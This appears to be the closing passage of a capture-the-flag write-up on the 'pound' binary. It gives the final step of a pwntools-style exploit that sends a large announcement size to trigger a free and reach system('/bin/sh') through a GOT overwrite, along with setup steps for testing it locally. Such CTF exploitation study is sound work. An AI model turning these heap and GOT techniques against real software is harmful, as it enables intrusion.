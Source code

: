 <br>Final step:
{% highlight Python%} 
def final_step():
	conn.sendline("4")
	conn.recvuntil("announcement:")
	conn.sendline("1000")
{% endhighlight %}
Calling option 4 (`void create_announcement()`) and passing a bigger size than `100` makes the program free the old announcement and trigger the call to `system("/bin/sh")`.

<br>Testing:

* Compile binary: `clang -m32 -DL1="285" -DL2="N;k" ./pound.c -o pound`
* Open binary with disassembler. Extract `free_in_got` address and find a `valid_bss_addr` far from where the `global` structure will be allocated.
* Modify this information in the `pwnpound.py` script.
* Modify `LIBCPATH` according to your system.
* Comment out `python_step()` used to connect to the python server.
* `socat tcp-l:4000,reuseaddr,fork exec:"./pound"`
* `python pwnpound.py`

~ marcof